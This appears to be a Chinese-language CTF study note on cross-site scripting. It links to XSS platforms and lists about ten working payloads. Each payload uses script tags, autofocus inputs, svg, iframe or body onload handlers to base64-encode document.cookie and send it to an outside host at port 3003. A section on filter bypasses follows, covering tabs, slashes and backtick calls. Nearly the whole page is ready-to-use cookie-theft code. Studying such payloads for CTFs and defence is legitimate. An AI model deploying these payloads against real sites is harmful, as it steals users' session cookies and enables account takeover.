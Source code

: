 # 资源
	- [XSS平台](https://xss.pt/xss.php)
	- [XSS Payload](https://tinyxss.terjanq.me/)
- # Payloads
  id:: 62f74a8a-6cfd-4478-bfc5-505c1622b940
- ```html
  <Script>
  var img=document.createElement("img"); img.src="http://hk2.xxx.xyz:3003/"+btoa(document.cookie);
  </Script>
  ```
- ```html
  <script>window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))</script>
  ```
- ```html
  <script>window.location.href='http://hk2.xxx.xyz:3003/'+btoa(document.cookie)</script>
  ```
- ```html
  <script>location.href='http://hk2.xxx.xyz:3003/'+btoa(document.cookie)</script>
  ```
- ```html
  <input onfocus="window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))" autofocus>
  ```
	- 通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
- ```html
  <input	onfocus="window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))"	autofocus>
  ```
- ```html
  <svg onload="window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))">
  ```
- ```html
  <iframe onload="window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))"></iframe>
  ```
- 使用tab绕过：
	- ```html
	  <iframe	onload="window.open('http://hk2.xxx.xyz:3003/'+btoa(document.cookie))"></iframe>
	  ```
- ```html
  <body onload="window.open('http://hy.xxx.xyz:3003/'+btoa(document.cookie))">
  ```
-
-
- # 绕过
- script
	- 使用上面 ((62f74a8a-6cfd-4478-bfc5-505c1622b940)) 的其他payload
- 空格
	- tab
	- `/`
- 括号
  id:: 62f7516d-1f63-4765-b37a-6f86e04d0c47
	- ```js
	  alert`1`
	  ```
- # 坑
- 有时需要让其访问127.0.0.1而不是外网地址
	- [[CTFWEB/WP/CTFShow/web330]]
